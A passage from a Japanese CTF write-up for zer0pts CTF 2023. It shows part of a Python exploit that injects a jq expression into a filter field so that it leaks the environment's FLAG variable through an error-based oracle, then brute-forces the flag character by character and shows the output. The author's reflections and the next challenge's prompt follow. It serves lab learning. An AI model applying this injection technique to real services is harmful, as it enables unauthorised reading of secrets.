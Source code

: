 ```python
            "keys": "name",
            "conds": ",".join([
                "\\ in name",
                f"))] + [if (env.FLAG | startswith({make_str(prefix)})) then error({make_str('x')}) else 0 end] # in name"
            ]),
        },
    )
    return res.json()["error"] == "something wrong"


known = "zer0pts{"
while not known.endswith("}"):
    for c in CHARS:
        if is_ok(known + c):
            known += c
            break
    print(known)
print("Flag: " + known)
```

```shell
$ python exploit.py
zer0pts{1
zer0pts{1d
zer0pts{1dk
zer0pts{1dk_
... snip ...
zer0pts{1dk_why_1t_uses_jq
zer0pts{1dk_why_1t_uses_jq}
Flag: zer0pts{1dk_why_1t_uses_jq}
```

### フラグ

```
zer0pts{1dk_why_1t_uses_jq}
```

### 感想

jqのコメント機能がドキュメントになぜか書かれておらず、また、`/* */`や`//`でコメントアウトができなかったので、できないんだと思い込んでしまい、時間をかなり溶かしました。悲しい。

問題自体は、SQLiの知見の転用ということで教育的で好きです。

## [web] Neko Note

181 pts, 26 solves

問題文:

> I made another note app.<br />
> `http://neko-note.2023.zer0pts.com:8005/`


[^top-01]: 一方で、ひとりでもくもくと問題に挑んでフラグを取りに行くのも達成感があって気持ちが良いので、どちらが良いかは微妙なところ。
[^warmuprofile-01]: writeupを書いてる途中で気づいたんですが、warmup profileでなくてwarmu**p**rofileだったのか。文字遊び好きです。
[^warmuprofile-02]: [作問者writeup](https://nanimokangaeteinai.hateblo.jp/entry/2023/07/17/141919#Web-137-Warmuprofile-48-solves)によれば、2つセッションつくるのが想定だったみたいです。たしかに。
[^jqi-01]: レスポンス内容の差異がなかったとしてもtime-basedなオラクルはたぶん構成可能です。やりたくなかったので、親切設計でありがたかったです。
[^plain-blog-01]: 歴史的経緯・慣習的なものなので必要という側面もあるかもしれないですが、それはそれとして。